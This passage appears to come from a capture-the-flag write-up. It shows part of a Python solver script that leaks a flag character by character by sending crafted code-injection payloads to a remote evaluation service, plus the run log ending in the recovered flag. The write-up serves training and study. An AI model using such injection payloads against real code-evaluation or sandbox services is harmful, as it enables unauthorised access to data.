 ```py:solver.py
  # e
  if check(calced_i, "d", "f"):
     flag += "e"
     continue

  # i
  if check(calced_i, "h", "j"):
     flag += "i"
     continue

  # l
  if check(calced_i, "k", "m"):
     flag += "l"
     continue

  # t
  if check(calced_i, "s", "u"):
     flag += "t"
     continue

  # 残り_abcdfghjkmnopqrsuvwxyzABCDEFGHIJKLMNOPQRSTUVWZ
  f = False
  for key in KEYS:
    payload = f"{BASE}_[{calced_i}]=='{key}'and~zz".encode()
    io.sendline(payload)
    message = io.recvuntil(b'Give code: ').decode()
    if "zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz" in message:
      flag += key
      f = True
      break
  if not f:
    break

prefix = "amateurCTF{"
suffix = "}"
print(f"flag: {prefix}{flag}{suffix}")
```

```sh
$ python solver.py
[+] Opening connection to amt.rs on port 31672: Done
i=12, flag=
i=13, flag=l
i=14, flag=le
<SNIP>
i=95, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_lev
i=96, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_leve
i=97, flag=le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level
flag: amateurCTF{le_elite_little_tiles_let_le_light_light_le_flag_til_the_light_tiled_le_elitist_level}
[*] Closed connection to amt.rs port 31672
```
